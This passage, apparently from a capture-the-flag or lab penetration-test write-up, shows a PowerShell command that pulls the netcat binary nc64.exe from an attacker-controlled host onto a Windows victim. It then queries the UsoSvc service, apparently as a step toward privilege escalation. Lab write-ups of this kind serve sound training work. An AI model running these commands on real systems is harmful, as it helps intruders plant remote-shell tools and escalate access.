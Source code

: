 Now we upload `nc64.exe` to window/victim machine.

```bash
iwr 10.10.14.5:80/nc64.exe -outfile nc64.exe
```

![image.png](image%2030.png)

![image.png](image%2031.png)

I try to cd to `\Windows\system32\inetsrv>` i tried `sc qc usosvc` 

![image.png](image%2032.png)
